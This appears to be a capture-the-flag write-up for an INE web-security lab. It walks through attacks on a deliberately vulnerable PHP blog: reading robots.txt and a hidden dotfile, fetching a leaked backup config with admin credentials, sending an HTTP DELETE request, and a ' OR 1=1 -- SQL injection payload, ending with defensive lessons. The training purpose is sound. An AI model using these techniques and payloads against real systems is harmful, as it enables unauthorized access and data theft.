










# Introduction to Web Application Security Testing CTF 1

**Platform:** INE Security  
**Course / Certification:** eWPT  
**Category:** Web Application Security / Penetration Testing  
**Difficulty:** Easy  
**Date Completed:** 2026-11-23  
**Flags Captured:** 5/5 ✅  

---

## 📝 Objective / Summary

The objective of this skill check lab is to assess and exploit common web application security misconfigurations and vulnerabilities on **SecureBlog (`v2.3.1-beta`)**, an internal blogging platform built with PHP and SQLite hosted at `http://target.ine.local`.

The assessment follows a structured five-task progression:
- **Task 1 (Flag 1):** Discover well-known reconnaissance files (`robots.txt`), locate sensitive directories (`/secret-docs/`), and uncover hidden dotfiles (`.flag1.txt`).
- **Task 2 (Flag 2):** Perform web directory discovery and unearth unreferenced backup configuration files (`/backup/app-config.bak`) exposing database parameters, administrative credentials, and Flag 2.
- **Task 3 (Flag 3):** Authenticate to the administrative dashboard (`/admin/login.php`) using recovered credentials and inspect raw HTTP response headers (`X-Admin-Flag`) on `/admin/dashboard.php` to extract Flag 3 and identify internal API endpoints.
- **Task 4 (Flag 4):** Interrogate the internal REST API endpoint (`/api/data`), test supported HTTP verbs, interpret developer hints regarding resource deletion, and execute an HTTP `DELETE` request to obtain Flag 4.
- **Task 5 (Flag 5):** Exploit an SQL injection vulnerability in the administrative database search feature (`/admin/search.php`) using a classic boolean bypass payload (`' OR 1=1 --`) to retrieve restricted hidden records from SQLite, revealing Flag 5.



---

## 🛠️ Tools Used

- **cURL (`v8.x`)** — HTTP client for probing headers, issuing custom HTTP methods (`DELETE`, `POST`), and querying configuration endpoints.
- **Firefox Web Browser & DevTools** — Manual browsing, UI navigation, and Network tab HTTP response header analysis.
- **Dirb / Gobuster / Ffuf** — Web directory and file extension brute-forcing.
- **SQLite / SQL Injection Techniques** — Tautology-based SQL injection payloads (`' OR 1=1 --`) for bypassing search query filters.

---

## 🌐 Target Information

| Parameter | Details |
|---|---|
| **Target Hostname** | `target.ine.local` |
| **Target URL** | `http://target.ine.local` |
| **Web Server** | `Apache/2.4.65 (Debian)` |
| **Backend Runtime** | `PHP/8.1.0-Ubuntu` / `PHP/8.1.34` |
| **Database** | SQLite (`/var/www/html/database/blog.db`) |
| **Application** | `SecureBlog v2.3.1-beta` |
| **Admin Login Endpoint** | `http://target.ine.local/admin/login.php` |
| **Admin Credentials** | `admin` : `s3cur3_p@ss!` |
| **Internal API Endpoint** | `http://target.ine.local/api/data` |

---

## 🔍 1. Task 1: Reconnaissance File & Hidden Dotfile Discovery (Flag 1)

### Step 1.1: Web Application Exploration
Navigating to `http://target.ine.local/` reveals **SecureBlog (`v2.3.1-beta`)**, described as *"A modern blogging platform built with PHP & SQLite. Fast, lightweight, and — hopefully — secure."* The top navigation bar contains links to **Home**, **Posts**, and **Admin**.



### Step 1.2: Inspecting `robots.txt`
In web reconnaissance, `robots.txt` is an essential first check to find endpoints intended to be hidden from search engine crawlers:

```
http://target.ine.local/robots.txt
```

The file reveals three disallowed entries:
```text
User-agent: *
Disallow: /admin/
Disallow: /secret-docs/
Disallow: /api/internal/
```



### Step 1.3: Directory Listing & Dotfile Enumeration
Navigating to `http://target.ine.local/secret-docs/` reveals that Apache directory listing (indexing) is enabled on the server:



Although the visible index only shows `Parent Directory`, UNIX systems conventionally hide files beginning with a dot (`.`). Checking for common hidden flag and configuration files directly:

```
http://target.ine.local/secret-docs/.flag1.txt
```

The server responds with the contents of the hidden file:
```text
FLAG1_68aa0d6fd19044c2b0f25fa99f9c951d
```



✅ **Flag 1 Captured:** `FLAG1_68aa0d6fd19044c2b0f25fa99f9c951d`

---

## 📂 2. Task 2: Unreferenced Backup Configuration Leakage (Flag 2)

### Step 2.1: Web Directory Discovery
Web directory enumeration (using wordlists with common backup extensions such as `.bak`, `.old`, `.save`) uncovers an unreferenced `/backup/` directory hosting `app-config.bak`.

### Step 2.2: Extracting Configuration and Credentials via cURL
We fetch the backup file using `curl`:

```bash
curl -i http://target.ine.local/backup/app-config.bak
```

**Response Output:**
```ini
HTTP/1.1 200 OK
Date: Mon, 23 Nov 2026 06:18:10 GMT
Server: Apache/2.4.65 (Debian)
Last-Modified: Fri, 15 Mar 2024 10:22:15 GMT
ETag: "1b4-613b5e4a2c100"
Accept-Ranges: bytes
Content-Length: 436
Content-Type: text/plain

# ========================================================
# SecureBlog Application Configuration
# Environment: STAGING
# Last Modified: 2024-03-15
# ========================================================

[database]
db_type = sqlite
db_path = /var/www/html/database/blog.db

[admin]
admin_url = /admin/login.php
admin_user = admin
admin_pass = s3cur3_p@ss!

[flags]
; OWASP A05:2021 Security Misconfiguration
; WSTG-CONF-04 Review Old Backup and Unreferenced Files
flag2 = FLAG2_eb4d4ea2b05d470b9c47402834cc7e49
```



The leaked configuration provides:
- **Database Engine & Path:** SQLite at `/var/www/html/database/blog.db`
- **Admin Login Endpoint:** `/admin/login.php`
- **Admin Credentials:** `admin` / `s3cur3_p@ss!`
- **Flag 2:** `FLAG2_eb4d4ea2b05d470b9c47402834cc7e49`
- **Vulnerability Mapping:** OWASP A05:2021 (Security Misconfiguration) & OWASP WSTG-CONF-04 (Review Old, Backup and Unreferenced Files).

✅ **Flag 2 Captured:** `FLAG2_eb4d4ea2b05d470b9c47402834cc7e49`

---

## 🔑 3. Task 3: Administrative Authentication & Response Header Analysis (Flag 3)

### Step 3.1: Authenticating to the Admin Portal
Using the credentials harvested from Task 2 (`admin` : `s3cur3_p@ss!`), we browse to:
```
http://target.ine.local/admin/login.php
```

Upon submitting the login form, the application authenticates the session and redirects to the Admin Dashboard at `http://target.ine.local/admin/dashboard.php`.

### Step 3.2: Inspecting HTTP Response Headers
As noted in the lab instructions: *"what you see in the browser is only part of the server's response. A web server communicates much more than just the HTML page."*

Opening Firefox Developer Tools (`F12`), navigating to the **Network** tab, and inspecting the HTTP response headers for `GET /admin/dashboard.php`:

```http
HTTP/1.1 200 OK
Date: Mon, 23 Nov 2026 06:21:40 GMT
Server: Apache/2.4.65 (Debian)
Vary: Accept-Encoding
X-Admin-Flag: FLAG3_b257cd2f80b748c89eb6e4f8a0eca5f3
X-Backend-Server: apache-node-01.internal
X-Debug-Mode: enabled
X-Internal-API: /api/data
X-Powered-By: PHP/8.1.0-Ubuntu
Content-Length: 1720
Content-Type: text/html; charset=UTF-8
```



The server leaks sensitive debug information in custom headers:
- `X-Admin-Flag`: Contains the Flag 3 token.
- `X-Internal-API`: Points to an internal API endpoint at `/api/data`.
- `X-Debug-Mode`: Enabled.

✅ **Flag 3 Captured:** `FLAG3_b257cd2f80b748c89eb6e4f8a0eca5f3`

---

## ⚡ 4. Task 4: Internal REST API & HTTP Method Tampering (Flag 4)

### Step 4.1: Probing the Leaked API Endpoint
With the internal API endpoint disclosed as `/api/data`, we test standard HTTP methods using `curl`.

#### Probing with POST:
```bash
curl -i -X POST http://target.ine.local/api/data
```

**Response:**
```json
HTTP/1.1 200 OK
Date: Mon, 23 Nov 2026 06:22:15 GMT
Server: Apache/2.4.65 (Debian)
X-Powered-By: PHP/8.1.0-Ubuntu
X-Powered-By: PHP/8.1.34
Content-Length: 104
Content-Type: application/json

{"message":"POST received. No flag here.","hint":"Try a different method - one that removes resources."}
```

#### Probing with GET:
```bash
curl -i http://target.ine.local/api/data
```

**Response:**
```json
HTTP/1.1 200 OK
Date: Mon, 23 Nov 2026 06:22:22 GMT
Server: Apache/2.4.65 (Debian)
X-Powered-By: PHP/8.1.0-Ubuntu
X-Powered-By: PHP/8.1.34
Content-Length: 70
Content-Type: application/json

{"message":"SecureBlog Internal API v1.0","endpoints":["/api/data"]}
```

### Step 4.2: Exploiting HTTP `DELETE` Method
The developer's hint explicitly directs us: *"Try a different method - one that removes resources."* In RESTful architectures, the method designated for deleting resources is `DELETE`.

Sending an HTTP `DELETE` request:

```bash
curl -i -X DELETE http://target.ine.local/api/data
```

**Response Output:**
```json
HTTP/1.1 200 OK
Date: Mon, 23 Nov 2026 06:22:56 GMT
Server: Apache/2.4.65 (Debian)
X-Powered-By: PHP/8.1.0-Ubuntu
X-Powered-By: PHP/8.1.34
Content-Length: 108
Content-Type: application/json

{"message":"You found the flag by using the DELETE method!","flag":"FLAG4_701b31543c9c47b3b43923d946431e19"}
```



The API validates the `DELETE` verb and returns Flag 4.

✅ **Flag 4 Captured:** `FLAG4_701b31543c9c47b3b43923d946431e19`

---

## 💉 5. Task 5: SQLite Database Injection via Admin Search (Flag 5)

### Step 5.1: Analyzing the Admin Search Functionality
In the Admin Dashboard, the navigation bar includes a **Search DB** feature located at:
```
http://target.ine.local/admin/search.php
```

This page allows administrators to search blog post records by title or content. Under normal usage, standard queries only display public posts (e.g., IDs 1, 2, and 3).

### Step 5.2: SQL Injection Boolean Bypass
The search query parameter `q` is directly concatenated into the backend SQLite query without parameterization or input sanitization:

$$\text{SELECT * FROM posts WHERE title LIKE '\%'\ .\ \$q\ .\ '\%'}$$

To manipulate the query logic so that every row in the database evaluates to `TRUE`, we craft a classic tautology injection:

```sql
' OR 1=1 --
```

URL-encoded into the request:
```
http://target.ine.local/admin/search.php?q='+OR+1%3D1+--
```



### Step 5.3: Retrieving Hidden Database Record (Flag 5)
Submitting the injected query forces SQLite to return all entries in the `posts` table regardless of standard visibility filters:

| ID | Title | Content | Author |
|---|---|---|---|
| `1` | Welcome to SecureBlog | Welcome to our modern blogging platform. Built with security in mind — or so we hope. | admin |
| `2` | Web Security Best Practices | Always validate user input and use parameterized queries to prevent injection attacks. | editor |
| `3` | Understanding HTTP | HTTP is the foundation of web communication. Learn about requests, responses, methods and headers. | admin |
| **`100`** | **FLAG** | **`FLAG5_eadaa8ac95e442cba56bb89e11e8f4a2`** | **system** |



Hidden post ID `100` created by `system` contains Flag 5.

✅ **Flag 5 Captured:** `FLAG5_eadaa8ac95e442cba56bb89e11e8f4a2`

---

## 🏁 6. Flags / Objectives Completed

| Task # | Objective | Vulnerability / Technique | Evidence Location | Flag Captured |
|:---:|---|---|---|---|
| **Task 1** | Well-known reconnaissance file exposed at web root | Information Disclosure (`robots.txt`) & Hidden Dotfile | `/secret-docs/.flag1.txt` | `FLAG1_68aa0d6fd19044c2b0f25fa99f9c951d` |
| **Task 2** | Hidden directories through brute-forcing | Unreferenced Backup File Exposure (OWASP A05 / WSTG-CONF-04) | `/backup/app-config.bak` | `FLAG2_eb4d4ea2b05d470b9c47402834cc7e49` |
| **Task 3** | Authenticate & inspect HTTP response | Sensitive HTTP Response Header Disclosure | `GET /admin/dashboard.php` (`X-Admin-Flag`) | `FLAG3_b257cd2f80b748c89eb6e4f8a0eca5f3` |
| **Task 4** | Identify HTTP methods supported by internal API | Insecure Direct Object / Verb Tampering (`DELETE`) | `DELETE /api/data` | `FLAG4_701b31543c9c47b3b43923d946431e19` |
| **Task 5** | Exploit admin search to reveal hidden record | SQLite SQL Injection (Boolean / Tautology Bypass `' OR 1=1 --`) | `/admin/search.php?q='+OR+1%3D1+--` | `FLAG5_eadaa8ac95e442cba56bb89e11e8f4a2` |

---

## 🧠 Key Learnings & Takeaways

1. **Reconnaissance & Hidden Files:**
   - Always inspect `robots.txt`, `sitemap.xml`, and `.well-known` endpoints early during web reconnaissance.
   - When directory listings are exposed, standard directory indexing hides UNIX dotfiles (`.filename`). Explicitly probe for dotfiles (`.git`, `.env`, `.htaccess`, `.flag*.txt`).

2. **Backup File Management (WSTG-CONF-04):**
   - Staging and development backup copies (`.bak`, `.old`, `.swp`, `.orig`) stored within the web server root bypass PHP execution handlers and get served as plaintext.
   - Credentials, database file paths, and environment flags must never be stored in plaintext web-accessible paths.

3. **HTTP Header Inspection:**
   - Web application assessments require inspecting the complete HTTP transaction, including response headers, status codes, and cookies.
   - Production web servers should strip debug headers (`X-Debug-Mode`, `X-Internal-API`, `X-Powered-By`) before serving traffic to prevent architectural disclosure.

4. **HTTP Verb / Method Handling:**
   - RESTful endpoints often respond differently depending on the HTTP method (`GET`, `POST`, `PUT`, `DELETE`, `OPTIONS`).
   - Restrict administrative or destructive HTTP methods using proper authorization middleware and web server configuration.

5. **Parameterized Queries Against SQL Injection:**
   - The search functionality directly concatenated user input into SQLite SQL statements.
   - Input sanitization alone is insufficient; all database interactions must employ prepared statements and parameterized queries (e.g., PDO with bound parameters in PHP) to prevent SQL injection.
